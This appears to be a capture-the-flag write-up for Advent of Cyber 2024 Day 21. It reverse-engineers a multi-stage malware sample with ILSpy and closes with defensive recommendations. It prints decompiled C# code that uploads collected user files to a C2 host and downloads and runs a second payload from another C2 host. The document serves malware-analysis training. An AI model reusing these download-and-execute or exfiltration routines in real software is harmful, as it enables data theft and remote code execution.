




# Advent of Cyber 2024 - Day 21

## Challenge Overview
Understand the fundamentals of reverse engineering through disassembly and decompilation. Analyze a multi-stage binary to uncover its functionality and identify its behavior, such as downloading files and executing malicious payloads. Utilize tools like PEStudio and ILSpy to reverse-engineer binaries, analyze indicators, and evaluate the logic of compiled executables.

---

## Steps

### Static Analysis with ILSpy

We began by decompiling `WarevilleApp.exe` using **ILSpy**, revealing its high-level source code.

#### 1. Upload Function
The `UploadFileToServer` function uploads a file to a remote server:
```csharp
private static void UploadFileToServer(string zipFilePath)
{
    string address = "http://anonymousc2.thm/upload";
    using (WebClient webClient = new WebClient())
    {
        try
        {
            webClient.UploadFile(address, zipFilePath);
            Log("File uploaded successfully.");
        }
        catch (WebException)
        {
        }
    }
}
```


#### 2. Download Function
The `DownloadAndExecuteFile` function downloads a binary from the C2 server and executes it:
```csharp
private void DownloadAndExecuteFile()
{
    string address = "http://mayorc2.thm:8080/dw/explorer.exe";
    string text = Path.Combine(
        Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.UserProfile), "Downloads"), "explorer.exe");
    using (WebClient webClient = new WebClient())
    {
        try
        {
            if (File.Exists(text)) { File.Delete(text); }
            webClient.DownloadFile(address, text);
            Process.Start(text);
        }
        catch (Exception ex)
        {
            MessageBox.Show("An error occurred while downloading or executing the file: " + ex.Message, "Error", MessageBoxButtons.OK, MessageBoxIcon.Error);
        }
    }
}
```


---

### Behavioral Analysis

1. **Downloaded Binary**
   - The file `explorer.exe` is downloaded to the `Downloads` folder.
   

2. **Stage 2 Binary Behavior**
   - The second binary compresses sensitive user data into a ZIP file named `CollectedFiles.zip`.
   

3. **File Upload**
   - The ZIP file is uploaded to the C2 server `anonymousc2.thm`.

---

## Key Findings

- **Multi-Stage Behavior**:
  - The binary downloads a secondary payload (`explorer.exe`), which then exfiltrates data.
- **C2 Communication**:
  - The primary and secondary binaries communicate with `mayorc2.thm` and `anonymousc2.thm`.

---

## Recommendations

1. **Network Segmentation**:
   - Block unauthorized access to external IPs/domains from internal networks.

2. **Binary Verification**:
   - Validate binaries' integrity using SHA-256 hashes before execution.

3. **Endpoint Detection**:
   - Deploy endpoint monitoring solutions to detect suspicious behavior, like file uploads.

---

## Conclusion

This task highlights the dangers of multi-stage binaries, emphasizing the need for robust detection and mitigation techniques. Tools like **ILSpy** allow analysts to reverse engineer binaries, gaining valuable insights into their functionality and malicious intent.